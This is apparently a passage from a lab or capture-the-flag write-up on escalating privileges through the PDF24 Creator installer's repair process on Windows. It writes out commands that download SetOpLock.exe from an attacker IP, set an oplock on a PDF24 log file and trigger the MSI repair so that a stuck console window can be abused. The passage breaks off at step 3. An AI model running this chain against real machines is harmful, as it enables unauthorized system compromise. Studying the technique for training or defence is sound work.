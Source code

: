 Another thing we'll need is the `SetOpLock.exe` binary as mentioned in the article. This comes in suite of multiple symbolic link testing utilities and is available in [this](https://github.com/googleprojectzero/symboliclink-testing-tools) GitHub repository.

```
iwr http://10.8.0.109/SetOpLock.exe -o SetOpLock.exe
```

After downloading `SetOpLock.exe` binary to the box, we have everything we need to proceed with the exploitation.

### Exploiting PDF24

#### Step 1

Let's set the oplock so the file gets locked when the repair process wants to write to it.

```
.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```

#### Step 2

Run the MSI installer to trigger the repair process.

```
msiexec.exe /fa C:\_install\pdf24-creator-11.15.1-x64.msi
```

This can take some time, however at the very end we can see that there's indeed a cmd windows stuck.

#### Step 3

From here we can right click on the stuck window and go to properties. In properties there is a blue highlighted clickable link which will open a web browser after being clicked.

![](../../../assets/lock-pdfexp1.png)
